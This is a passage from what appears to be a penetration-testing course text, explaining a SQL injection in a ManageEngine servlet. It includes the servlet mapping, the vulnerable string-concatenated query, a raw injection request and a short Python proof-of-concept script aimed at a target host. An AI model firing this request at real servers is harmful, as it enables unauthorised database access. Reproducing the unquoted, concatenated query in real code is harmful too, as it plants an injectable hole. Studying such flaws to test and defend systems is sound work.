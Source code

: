 From the servlet mapping initially discovered in the web.xml file, we know that the URL we need to use to reach the vulnerable code is as follows:

```
<servlet-mapping>
    <servlet-name>AMUserResourcesSyncServlet</servlet-name>
    <url-pattern>/servlet/AMUserResourcesSyncServlet</url-pattern>
</servlet-mapping>
```
Listing 8 - The servlet mapping

```
<servlet>
    <servlet-name>AMUserResourcesSyncServlet</servlet-name>
    <servlet-class>com.adventnet.appmanager.servlets.comm.AMUserResourcesSyncServlet</servlet-class>
</servlet>
```
Listing 9 - The mapping location

Remember that during our analysis, we established that to reach the vulnerable SQL query, we only require two parameters in our request, namely ForMasRange and userId.

Putting all the information together, our initial request will look like this:

```
GET /servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1; HTTP/1.1
Host: manageengine:8443
```
Listing 10 - Triggering the vulnerability

Notice that the request above performs a basic injection using a semicolon. The reason for this is because we already know what the vulnerable query looks like (Listing 11) and we know that it does not contain any quoted strings. Therefore, trying to simply terminate the query with a semicolon at the injection point should work well.

```
String qry = "select distinct(RESOURCEID) from AM_USERRESOURCESTABLE
where USERID=" + userId + " and RESOURCEID >" + stRange + " and
RESOURCEID < " + endRange;
```
Listing 11 - The SQL query taken from the code. Notice how there are no quotes that need to be escaped.

```
import sys
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

def main():
	if len(sys.argv) != 2:
		print "(+) usage %s <target>" % sys.argv[0]
		print "(+) eg: %s target" % sys.argv[0]
		sys.exit(1)
	
	t = sys.argv[1]
	
	sqli = ";"

	r = requests.get('https://%s:8443/servlet/AMUserResourcesSyncServlet' % t, 
					  params='ForMasRange=1&userId=1%s' % sqli, verify=False)
	print r.text
	print r.headers

if __name__ == '__main__':
	main()
```
Listing 12 - Sample proof-of-concept to trigger the vulnerability
